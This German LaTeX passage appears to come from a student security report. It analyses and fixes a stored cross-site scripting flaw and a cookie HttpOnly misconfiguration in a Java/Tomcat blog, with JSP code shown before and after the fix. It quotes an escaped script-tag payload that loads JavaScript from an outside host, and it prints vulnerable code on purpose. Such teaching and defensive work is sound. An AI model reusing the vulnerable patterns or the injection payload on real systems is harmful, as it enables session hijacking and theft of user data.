Seit einigen Jahren existiert gegen diese Art des Angriffs eine Sicherheitsvorkehrung, die das Stehlen von Cookie-Daten verhindern soll. Beim Setzen des Cookies kann der Webserver diesen als "HttpOnly" kennzeichnen. Dies ist ein Hinweis für den Browser, dass dieser Wert einem clientseitigen Script nicht zugänglich gemacht werden darf. Moderne Browser verstehen diese Hinweis und schützen daher die SessionID vor dem oben beschriebenen Session Hijacking-Angriff (anstatt des Cookie-Inhalts liefert document.cookie dann einen leeren String).

In der \url{README}-Datei unseres Java-Blogs wird behauptet, die Cookies wären als "HttpOnly" gekennzeichnet. Ein Blick in die Server-Konfigurations-Datei \url{web.xml} scheint jedoch das Gegenteil zu zeigen. Diese Datei enthält unter anderem den folgenden Abschnitt:

\begin{lstlisting}
<session-config>
	<cookie-config>
		<http-only>
			false
		</http-only>
	</cookie-config>
</session-config>
\end{lstlisting}

Weitere Internetrecherchen (z. B. unter \url{http://software-security.sans.org/blog/2010/08/11/security-misconfigurations-java-webxml-files}) zeigen jedoch, dass der ganze gezeigte Abschnitt in der Konfigurationsdatei eigentlich überflüssig ist: Tomcat 7 ist offenbar per Default so konfiguriert, dass alle Cookies HttpOnly sind. Tatsächlich kann diese serverweite Default-Konfiguration nicht einmal durch die Angaben in \url{web.xml} überschrieben werden. Der gezeigte Abschnitt scheint also - glücklicherweise - einfach wirkungslos zu sein. Lediglich in dem Fall, dass die serverweite Konfiguration HttpOnly ausschalten sollte, würden die Angaben in \url{web.xml} wirksam werden - in diesem Fall würde durch den gezeigten Abschnitt tatsächlich eine Sicherheitslücke geöffnet.

Zusammenfassend konnten in diesem Blog-Programm also zwei Sicherheitslücken identifiziert werden:

\begin{enumerate}
\item Eine Anfälligkeit für Cross-Site Scripting
\item Die Konfiguration der Cookies ist widersprüchlich, für den Administrator verwirrend und enthält - je nach Server-Konfiguration - eine Sicherheitslücke
\end{enumerate}

Der folgende Abschnitt beschreibt Möglichkeiten, diese Sicherheitslücken zu schließen.

\subsection{Lösung - Teil 1: HttpOnly}

Der erste und einfachste Teil der Lösung besteht darin, die Cookies tatsächlich als HttpOnly zu konfigurieren. Dafür der oben gezeigt Ausschnitt aus web.xml folgendermaßen angepasst werden:

\begin{lstlisting}
<session-config>
	<cookie-config>
		<http-only>
			true
		</http-only>
	</cookie-config>
</session-config>
\end{lstlisting}

Dies würde die Cookies auch dann schützen, wenn die serverweite Konfiguration von Tomcat die Cookies standardmäßig auf nicht HttpOnly setzen sollte.

Die Cookies so zu schützen ist sinnvoll, aber nicht ausreichend. Verwendet der User nämlich einen älteren Browser, ist es denkbar, dass dieser den Hinweis "HttpOnly" nicht versteht und daher die SessionID einem Script zugänglich macht. Ein Session Hijacking wäre damit also denkbar. Daher ist es notwendig, auch die Anfälligkeit gegen Cross-Site Scripting zu beheben.

\subsection{Lösung - Teil 2: Schutz gegen Cross-Site Scripting}

\subsubsection{Bessere Regular Expressions?}

Ein erster Versuch, das Programm sicherer zu machen, wäre, die Regular Expression anzupassen, so dass auch Script-Tags mit einem src-Attribut als gefährlich erkannt und ausgefiltert würden. Also z. B. \lstinline$.*< *[Ss][Cc][Rr][Ii][Pp][Tt] *([Ss][Rr][Cc].*)+>.*"$. Dies ist allerdings fehleranfällig und lässt außerdem andere Möglichkeiten des Cross-Site Scripting außer Acht.

Sinnvoller ist es in diesem Fall, die Blog-Daten (Autoren, Inhalte, Suchbegriffe) nicht bei der Eingabe, sondern erst bei der Ausgabe zu filtern. Anders als z. B. bei Formen der SQL-Injection ist der Code im Rahmen eines Cross-Site Scripting Angriffs erst dann gefährlich, wenn er wieder an einen Browser ausgegeben wird. Da auf dem Server kein HTML nach Script-Tags geparst und kein JavaScript interpretiert wird, ist z. B. der oben gezeigt Angriff für den Server ungefährlich.

\subsubsection{Besser: Escapen beim erneuten Anzeigen}

Sinnvoller ist es daher, die gespeicherten Daten erst bei der erneuten Ausgabe zu filtern und gegebenenfalls in eine Form zu transformieren, die dem Opfer nicht mehr gefährlich werden kann. Im konkreten Fall heißt das: In eine Form, die vom Browser des Opfers nicht als JavaScript-Tag erkannt und daher auch nicht ausgeführt (sondern einfach als Inhalt der Website dargestellt) wird. Diese Transformation ist allgemein als Escapen bekannt: Dabei werden potentiell gefährliche Zeichen wie < und > durch entsprechende Escape-Sequenzen ersetzt. Der Angriffs-Text aus dem Beispiel wird dadurch zu \lstinline$&lt;SCRIPT SRC=http://web.student.tuwien.ac.at/~e9902433/xss.js&gt;&lt;/SCRIPT&gt;$. Aus der Sicht des Web-Browsers ist dies überhaupt kein Script-Tag mehr, sondern einfach eine Zeichenkette, die mit dem Zeichen \lstinline$&lt$ beginnt. Als solche wird sie einfach als Inhalt der Website ausgegeben.

Wir kann nun ein solches Escapen der Ausgabe in unserem Blog erreicht werden? Eine kurze Recherche im Internet zeigt, dass Variablen-Werte in Servlet-Tags in JSP generell nicht gefiltert/escaped werden. Im Gegensatz dazu werden Variablen-Werte in \emph{Expression Language-Tags} in JSP (per Default) \emph{immer} escaped. Um die Ausgabe-Werte zu escapen, ist es also lediglich notwendig, die entsprechenden Servlet-Abschnitte durch Expression Language zu ersetzen, genauer gesagt durch <c:forEach> für den Schleifen-Durchgang und <c:out> für die eigentliche Ausgabe. Das Tag <c:out> führt dann das eigentlich Escapen durch.

Die beiden folgenden Code-Beispiele zeigen die Änderungen am Beispiel von \url{archive.jsp}. Das erste Beispiel zeigt die anfällige Variante, das zweite Beispiel die verbesserte Version.

\begin{lstlisting}
<jsp:useBean id="bean" class="gui.model.SearchResultBean" scope="session"/>
<%@page import="gui.model.PostBean"%>
<%@ page language="java" contentType="text/html; charset=ISO-8859-1"
    pageEncoding="ISO-8859-1"%>
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=ISO-8859-1">
<title>Insert title here</title>
</head>
<body>
<%for (PostBean post:bean.getResults()){ %>
<div class=post>
	<h3 class=author>
		<%=post.getAuthor() %>
	</h3>
	<div class=content>
		<%=post.getContent() %>
	</div>
</div>
<%} %>
</body>
</html>
\end{lstlisting}

\begin{lstlisting}
<jsp:useBean id="bean" class="gui.model.SearchResultBean" scope="session"/>
<%@ page import="gui.model.PostBean"%>
<%@ page language="java" contentType="text/html; charset=ISO-8859-1"
    pageEncoding="ISO-8859-1"%>
<%@ taglib uri="http://java.sun.com/jsp/jstl/core" prefix="c" %>    
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=ISO-8859-1">
<title>Insert Titel here</title>
</head>
<body>
<c:forEach var="post" items="${sessionScope.bean.results}">
<p>Entry</p>
<div class=post>
	<h3 class=author>
		<c:out value="${post.author}"/>
	</h3>
	<div class=content>
		<c:out value="${post.content}"/>
	</div>
</div>
</c:forEach>
</body>
</html>
\end{lstlisting}

Man beachte, dass zwei weitere Veränderungen notwendig sind, um die EL-Tags verwenden zu können.
\begin{enumerate}
\item In der betreffenden JSP-Datei muss das Tag-Libary durch eine entsprechende taglib-Direktive deklariert werden. 
\item Da Tomcat nicht mit den Archiven der Java Standard Tag Library ausgeliefert wird, müssen diese heruntergeladen und im Verzeichnis WEB-INF/lib abgelegt werden.
\end{enumerate}

Nicht nur \url{archive.jsp} war in der ursprünglichen Version anfällig für das Cross-Site Scripting. Auf ähnliche Weise mussten auch die Tags in \url{index.jps}, \url{post.jsp} und \url{searchResults.jsp} angepasst werden.

\subsection{Aktuelle Fälle}

Vulnerabilities gegen Cross-Site Scripting treten immer wieder auch auf den renommiertesten Websites auf. Eine Website zu diesem Thema (\url{http://www.xssed.com/}, sprich: "cross-site scripted") berichtet z. B. über Vulnerabilities bei Amazon (\url{http://www.xssed.com/news/122/Amazon_hit_by_persistent_XSS_vulnerability/}), PayPal (\url{http://www.xssed.com/news/126/EV_SSL-secured_live_PayPal_site_vulnerable_to_XSS/}) und sogar bei Unternehmen, die sich auf Software-Sicherheit spezialisieren wie McAfee und Symantec (\url{http://www.xssed.com/news/130/F-Secure_McAfee_and_Symantec_websites_again_XSSed/}).

 


\section{App2}



\end{document}


